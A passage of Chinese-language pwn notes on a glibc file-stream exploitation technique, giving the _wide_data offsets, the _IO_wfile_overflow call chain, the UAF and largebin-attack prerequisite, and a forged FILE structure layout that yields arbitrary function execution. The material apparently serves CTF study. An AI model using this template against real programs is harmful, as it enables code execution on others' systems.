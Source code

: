 - `_wide_data->_IO_write_base`为`0`，偏移为`0x18`
- `_wide_data->_IO_buf_base`为`0`，偏移为`0x30`
- `_wide_data->_wide_vtable`为可控的`chunk B`的地址，偏移为`0xe0`

`chunk B`作为`fake vtable`，会调用其偏移`0x68`处的函数。因此：

- `chunk B`偏移`0x68`处为调用的函数。
- 调用时`rdi`的值即为`fp->_flags`

## 实现效果

任意函数执行、`ROP`等

## 函数调用链

```c
_IO_wfile_overflow
    _IO_wdoallocbuf
        _IO_WDOALLOCATE
            *(fp->_wide_data->_wide_vtable + 0x68)(fp)
```

## 常用触发方式

至少需要`UAF`来完成一次`largebin attack`

## 结构体构造

`_IO_list_all`指向的`fp`构造如下：

```c
{
  file = {
    _flags = 0x68732020, // 不含有2、8、800，偏移为0
    _IO_read_ptr = 0x101, // chunk的size位，不是构造的
    _IO_read_end = 0x0,
    _IO_read_base = 0x0,
    _IO_write_base = 0x0, // _IO_write_ptr > _IO_write_base，偏移为0x20
    _IO_write_ptr = 0x1,  // 偏移为0x28
    _IO_write_end = 0x0,
    _IO_buf_base = 0x0,
    _IO_buf_end = 0x0,
    _IO_save_base = 0x0,
    _IO_backup_base = 0x0,
    _IO_save_end = 0x0,
    _markers = 0x0,
    _chain = 0x0,
    _fileno = 0x0,
    _flags2 = 0x0,
    _old_offset = 0x0,
    _cur_column = 0x0,
    _vtable_offset = 0x0,
    _shortbuf = {0x0},
    _lock = 0x0,
    _offset = 0x0,
    _codecvt = 0x0,
    _wide_data = 0x56351e9e6b20, // _wide_data设置为可控堆块A的地址，偏移0xa0
    _freeres_list = 0x0,
    _freeres_buf = 0x0,
    __pad5 = 0x0,
    _mode = 0x0,
    _unused2 = {0x0 <repeats 20 times>}
  },
  vtable = 0x7f7e2aefb0c0 // vtable要使得调用函数_IO_wfile_overflow，因此可以构造为_IO_wfile_jumps的偏移，偏移为0xd8
}
```